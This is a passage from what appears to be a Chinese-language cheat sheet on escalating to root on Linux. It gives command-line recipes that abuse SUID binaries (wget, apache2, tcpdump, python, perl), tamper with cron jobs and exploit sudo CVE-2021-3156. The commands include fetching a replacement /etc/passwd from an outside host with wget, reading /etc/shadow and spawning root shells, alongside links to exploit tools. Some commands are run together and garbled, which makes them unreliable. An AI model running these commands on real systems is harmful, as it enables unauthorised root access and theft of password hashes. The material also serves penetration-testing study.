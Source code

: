### wget

>wget http://192.168.56.1:8080/passwd -O /etc/passwd

### apache

>apache2 -f /etc/shadow

### tcpdump

>echo $'id\ncat /etc/shadow' > /tmp/.test
>chmod +x /tmp/.test
>sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

### python/perl/ruby/lua/php/etc

>#python
>python -c "import os;os.system('/bin/bash')"
>#perl
>exec "/bin/bash";

[SUID查询手册](https://gtfobins.github.io/#+shell)

## 内核提权

>uname -a

搜索相关内核漏洞，并编译上传

[linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)
[linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)


## crontab提权

Cron任务常常以root权限运行。如果我们可以成功篡改Cron任务中定义的任何脚本或二进制文件，我们便可以使用root权限执行任意代码。

**POC**

>crontab -lls -alh /var/spool/croncat /etc/cron*

## sudo提权

由于sudo错误地在参数中转义了反斜杠导致堆缓冲区溢出，从而允许任何本地用户（无论是否在sudoers文件中）获得root权限，无需进行身份验证，且攻击者不需要知道用户密码。

影响范围

-   Sudo 1.8.2 - 1.8.31p2
-   Sudo 1.9.0 - 1.9.5p1

测试系统是否易受此漏洞影响：

1.  以非root用户身份登录系统。
2.  运行命令“sudoedit -s /”
3.  如果出现以“ sudoedit：”开头的错误响应，则系统受到此漏洞影响；如果出现以“ usage：”开的错误响应，则表示该漏洞已被补丁修复。
利用工具:[https://github.com/blasty/CVE-2021-3156](https://github.com/blasty/CVE-2021-3156)
